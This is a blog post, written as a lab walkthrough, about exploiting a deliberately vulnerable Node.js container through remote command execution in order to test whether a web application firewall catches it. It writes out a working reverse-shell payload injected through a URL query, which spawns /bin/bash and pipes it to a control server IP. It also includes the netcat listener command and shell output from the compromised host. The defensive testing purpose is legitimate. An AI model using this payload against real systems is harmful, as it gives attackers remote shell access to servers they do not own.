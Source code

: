 ```yaml
---
layout: post
date:   2020-08-09 17:54:35 -0400
title:  "Web Server Compromise - Node.js Remote Command Execution"
categories: initialaccess
tags: waf
---
```

<p>
Remotely exploiting servers in DMZ's seems so unecessary today with all of the credential theft and client side exploitation, but it is still a critical link in the attack chain. Cloud initiatives are allowing administrators to start up servers all over the place, and most of the time they do not have the same protections in the cloud they typically would in the DMZ. This attack could also be applied for lateral movement if the vulnerable web application is only accessible internally.
</p>

<p>
As a user you can be on either side of the DUT (Device Under Testing) for this. We will be exploiting the web server by requesting a URL with the command execution in it. For this user case that command will ask the web server to connect to our control infrastructure.
</p>

<p>
This particular use case can be used to demonstrate lateral movement too. This host could be the initial system compromised from the Internet and then pivot to another host, or it could be leveraged to pivot on an internal network.
</p>

<p>
Original post for this exploit can be found here, https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/
</p>

<h3>Step 1 - Create a Sub-domain for the Application</h3>

<p>
This is important because we will proxy the traffic through the WAF.
</p>

<img src="/images/node-dns.png">

<h3>Step 2 - Deploy the Node.js Container</h3>

<p>
Run the container somewhere you will be able to access the server by it's DNS name. This particular one is running in GCP.
</p>

<p>
Run the pre-built container for this with the following command, changing the -h to the domain you setup in Step 1.
</p>

<code>docker run -h node.ninjastars.cf -p 8080:8080 -d freshdemo/node-simple-rce</code>


<h3>Step 2 - Setup Control Channel</h3>

<p>
From a terminal behind your device under testing run netcat as a listener. Make sure the port you specify will be accessible from the webserver. This is running on a separate host in Azure and has an IP of 13.88.250.188.
</p>

<code>
  nc -l 80
</code>
<br>


<h3>Step 3 - Exploit the Server</h3>

<p>
The following demonstrates how to connect to the vulnerable server (node.ninjastars.cf:8080), and run the remote command execution that communicates with the control server in the previous step (13.88.250.188:80).
</p>

<code>
  http://node.ninjastars.cf:8080/q=var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"13.88.250.188",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
</code>
<br>
<br>

<p>
Now back at your control server you should be able to execute commands on the host.
</p>

<pre>
root@DockerHost:~# nc -l 80
pwd
/usr/src/app
ls
app.js
node_modules
package-lock.json
package.json
</pre>


<h3>Step 4 - View the Results</h3>


<p>
The WAF was able to identify and prevent this exploit.
</p>
<br>
<img src="/images/node-waf.png">


